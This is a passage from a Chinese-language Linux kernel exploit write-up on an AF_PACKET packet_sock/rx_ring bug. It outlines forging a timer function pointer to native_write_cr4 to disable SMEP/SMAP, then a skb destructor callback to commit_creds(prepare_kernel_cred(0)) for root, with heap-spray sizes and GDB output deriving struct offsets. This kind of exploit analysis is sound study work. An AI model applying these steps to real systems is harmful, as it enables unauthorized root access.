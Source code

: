 - （1）第一次触发漏洞，伪造函数指针 `po->rx_ring->prb_bdqc->retire_blk_timer->function`，指向`native_write_cr4()`函数，伪造参数 `po->rx_ring->prb_bdqc->retire_blk_timer->data` 为 0x406e0，关闭SMEP/SMAP保护；
- （2）第二次触发漏洞，伪造函数指针 `skb-> ... ->destructor_arg->callback`，指向 `commit_creds(prepare_kernel_cred(0))` 函数，提权；
- （3）如果能读取特权文件，表示提权成功，fork子进程弹shell，避免直接弹shell时释放sk_buff导致崩溃。

**堆喷射**：注意，关闭SMEP/SMAP时喷射覆盖的是`packet_sock`对象，大小为0x580；提权时喷射覆盖的是`sk_buff`指向的数据区和`skb_shared_info`结构所在的堆块，大小为0x800。这两个对象都位于0x800大小的堆块中，所以exp中发送的占位数据大小是1536，也就是0x600，对齐后大小为0x800。关于`sk_buff`对象的知识可以参考第3节，了解`sk_buff`结构和`skb_shared_info`结构的空间排布关系。

**修正偏移**：

```bash
# 1. timer offset				---> 偏移为 0x2e8+0x30+104
gef➤  p/x &(*(struct packet_sock*)0)->rx_ring
$3 = 0x2e8					=744
gef➤  p/x &(*(struct packet_ring_buffer*)0)->prb_bdqc
$4 = 0x30
gef➤  p/x &(*(struct tpacket_kbdq_core*)0)->retire_blk_timer
$5 = 0x68					=104

# 2. skb_shared_info offset		---> 偏移为 0x6c0
/exp $ cat /tmp/kallsyms | grep skb_release_data
ffffffff81783260 t skb_release_data
gef➤  x /30i 0xffffffff81783260
   0xffffffff81783260 <skb_release_data>:	nop    DWORD PTR [rax+rax*1+0x0]
   0xffffffff81783265 <skb_release_data+5>:	push   rbp
   0xffffffff81783266 <skb_release_data+6>:	mov    rbp,rsp
   0xffffffff81783269 <skb_release_data+9>:	push   r14
   0xffffffff8178326b <skb_release_data+11>:	push   r13
   0xffffffff8178326d <skb_release_data+13>:	push   r12
   0xffffffff8178326f <skb_release_data+15>:	push   rbx
=> 0xffffffff81783270 <skb_release_data+16>:	movzx  eax,BYTE PTR [rdi+0x8e]
   0xffffffff81783277 <skb_release_data+23>:	mov    r14d,DWORD PTR [rdi+0xcc]
   0xffffffff8178327e <skb_release_data+30>:	add    r14,QWORD PTR [rdi+0xd0]
   0xffffffff81783285 <skb_release_data+37>:	test   al,0x1
   0xffffffff81783287 <skb_release_data+39>:	je     0xffffffff817832af <skb_release_data+79>
gef➤  p skb
$1 = (struct sk_buff *) 0xffff88007fa5f200
gef➤  p *(struct sk_buff *) 0xffff88007fa5f200
  tail = 0x4ac,
  end = 0x6c0,
  head = 0xffff88007a890800 "",
  data = 0xffff88007a890c78
```

**提权成功**：
